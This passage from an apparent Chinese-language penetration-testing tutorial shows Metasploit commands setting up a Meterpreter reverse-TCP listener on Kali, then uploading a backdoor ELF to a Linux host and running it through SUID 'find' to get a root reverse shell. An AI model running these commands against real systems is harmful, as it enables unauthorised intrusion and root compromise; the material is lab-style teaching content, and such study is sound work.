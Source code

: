 ### 4.5.2. 开启监听

这里开启kali上的监听。

```bash
use exploit/multi/handler                      ##进入监听
set payload linux/x64/meterpreter/reverse_tcp  ##监听payload
set lhost 192.168.10.20                        ##设置监听地址
set lport 5555                                 ##设置监听端口
run																						 ##执行
```

![image-20230331122905795](assets/ozskMX5jTOlVD9f.png)

### 4.5.3. 上传后门

这里将后门上传到Linux系统中，并且给文件添加一个执行权限，然后再使用find进行执行。

```
chmod +x shell.elf     ##给后门木马添加权限
find 111 -exec ./shell.elf \;  ## 执行后门木马
```

![image-20230331122933587](assets/cue3p4PkDhZWodX.png)

### 4.5.4. 查看反弹效果

可以看到这里使用木马反弹回来的是root权限，那么我们输入内容就无需使用find进行执行了。

![image-20230331123006482](assets/ZPSYJjn4g3Ed98i.png)
